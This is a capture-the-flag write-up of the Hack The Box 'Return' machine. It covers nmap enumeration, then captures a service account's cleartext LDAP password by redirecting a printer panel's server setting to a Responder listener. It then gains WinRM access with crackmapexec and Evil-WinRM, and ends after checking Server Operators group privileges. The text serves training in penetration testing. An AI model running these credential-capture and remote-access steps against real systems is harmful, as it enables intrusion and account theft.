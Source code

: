 # Return

# User Flag

## NMAP Enumeration

NMAP Port Scan:

```bash
sudo nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.11.108

PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack ttl 127
80/tcp    open  http           syn-ack ttl 127
88/tcp    open  kerberos-sec   syn-ack ttl 127
135/tcp   open  msrpc          syn-ack ttl 127
139/tcp   open  netbios-ssn    syn-ack ttl 127
389/tcp   open  ldap           syn-ack ttl 127
445/tcp   open  microsoft-ds   syn-ack ttl 127
464/tcp   open  kpasswd5       syn-ack ttl 127
593/tcp   open  http-rpc-epmap syn-ack ttl 127
636/tcp   open  ldapssl        syn-ack ttl 127
3268/tcp  open  globalcatLDAP  syn-ack ttl 127
5985/tcp  open  wsman          syn-ack ttl 127
9389/tcp  open  adws           syn-ack ttl 127
47001/tcp open  winrm          syn-ack ttl 127
49664/tcp open  unknown        syn-ack ttl 127
49665/tcp open  unknown        syn-ack ttl 127
49666/tcp open  unknown        syn-ack ttl 127
49668/tcp open  unknown        syn-ack ttl 127
49671/tcp open  unknown        syn-ack ttl 127
49678/tcp open  unknown        syn-ack ttl 127
49679/tcp open  unknown        syn-ack ttl 127
49680/tcp open  unknown        syn-ack ttl 127
49683/tcp open  unknown        syn-ack ttl 127
49740/tcp open  unknown        syn-ack ttl 127
```

NMAP Service Scan:

```bash
nmap -sV -sC -Pn -v -oN nmap-report 10.10.11.108 -p 53,80,88,135,139,389,445,464,593,636,3268,5985,9389,47001,49664,49665,49666,49668,49671,49678,49679,49680,49683,49740

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-30 13:47:33Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49740/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-30T13:48:31
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 18m37s
```

## Web Enumeration

Found a website hosted on port 80. The website has a settings page, which looks to make a request to `printer.return.local` over port 389 with the user `svc-printer`. The password is not visible:

![Settings Page](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Windows%20Machines/Return/Images/Web%20-%20Settings%20Page.png)

It stands to reason, that if we change the server address to our attacker machine and spin up `responder`, we will be able to capture any LDAP requests that contain the user `svc-printer` and the accounts password.

```bash
sudo python3 /usr/share/responder/Responder.py -I tun0 -dwv

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.108
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

Checked for WinRM access:

```bash
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

Got the user flag:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> dir


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/30/2024   6:41 AM             34 user.txt
```

# Root Flag

## Windows Privilege Escalation

Checked account privileges and group permissions:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

Can see that the user `svc-printer` is a member of the `Server Operators` [group](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#bkmk-serveroperators). Members of the Server Operators group can sign in to a server interactively, create and delete network shared resources, start and stop services, back up and restore files, format the hard disk drive of the computer, and shut down the computer.








